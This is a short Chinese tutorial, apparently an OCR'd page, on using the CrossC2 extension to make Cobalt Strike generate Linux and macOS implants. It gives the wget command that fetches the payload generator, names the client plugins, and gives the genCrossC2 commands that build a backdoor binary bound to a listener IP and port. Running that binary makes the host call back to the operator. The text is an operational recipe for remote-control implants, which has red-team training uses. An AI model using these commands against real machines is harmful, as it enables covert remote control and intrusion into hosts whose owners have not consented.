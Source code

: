 ## **Cross C2扩展**
Cobalt Strike 默认不支持 linux MacOS 的远控
Cross C2是一个支持Linux & MacOS系统的拓展插件，支持用户自定义生成的动态库，以无文件落地的方式从内存中加载执行动态库或可执行文件
生成.out等类型的linux可执行文件payload，不过监听器类型仅支持反弹https和正向bind。

^
下载加载器
CS服务端是Linux则下载genCrossC2.Linux，上传到CobaltStrike服务端目录下。
```
wget https://github.com/gloxec/CrossC2/releases/download/v3.1.0/genCrossC2.Linux
```
下载CS客户端扩展插件
CrossC2-GithubBot-2022-06-07.cna
CrossC2Kit.cna
CrossC2Kit Loader.cna

^
使用：
将CobaltStrike服务端的.cobaltstrike.beaconkeys下载到CobaltStrike客户端目录下。
客户端创建一个https监听器8087
客户端点击cross插件创建一个https监听器绑定一般https监听器
会生成命令
CS服务端执行生成linux后门绑定监听器端口命令
```
./genCrossC2.Linux 监听的IP 监听的端口 null null Linux x64 test

chmod +x test
./test   即可上线

 ./genCrossC2.Linux 192.168.130.19 443 .cobaltstrike.beacon_keys null Linux x64 test
```



^
更多：
文章：<https://www.cnblogs.com/bktown/p/16902827.html>
